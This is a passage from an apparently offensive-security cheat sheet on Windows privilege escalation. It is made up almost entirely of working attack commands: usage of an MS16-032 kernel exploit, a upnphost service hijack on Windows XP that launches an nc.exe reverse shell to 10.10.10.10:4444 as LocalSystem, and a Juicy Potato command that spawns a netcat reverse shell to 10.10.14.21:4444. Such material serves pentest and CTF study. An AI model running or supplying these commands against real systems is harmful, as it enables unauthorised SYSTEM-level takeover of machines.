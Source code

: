 ```text
/opt/windows-kernel-exploits/MS16-032/x64/ms16-032.exe

Usage:
.\ms16-032.exe
```

## Windows XP SP0/SP1 - upnphost

```text
sc config upnphost binpath= "C:\Inetpub\wwwroot\nc.exe 10.10.10.10 4444 -e C:\WINDOWS\System32\cmd.exe"
sc config upnphost obj= ".\LocalSystem" password= ""
sc qc upnphost
sc config upnphost depend= ""
net start upnphost
```

Maybe it will fail due to missing some dependency, try the following:

```text
sc config SSDPSRV start=auto
net start SSDPSRV
net stop upnphost
net start upnphost

sc config upnphost depend=""
```

{% hint style="warning" %}
**Alert**: SPACES are mandatory to the work of the exploit.
{% endhint %}

{% embed url="https://sohvaxus.github.io/content/winxp-sp1-privesc.html" %}

## Check privileges

With the following command we can check the privileges that is assigned to the pwned user:

```text
whoami /priv
```

### SeImpersonatePrivilege

#### RottenPotato \(Juicy Potato\)

Juicy Potato is another Local Privilege Escalation tool, from a Windows Service Accounts to NT AUTHORITY\SYSTEM. Is a sugared version of Rotten Potato. [Download the latest realese](https://github.com/ohpe/juicy-potato) and execute it.

```text
.\JuicyPotato.exe -l 1337 -p c:\windows\system32\cmd.exe -a "/c c:\windows\temp\nc.exe -e cmd.exe 10.10.14.21 4444" -t *
```
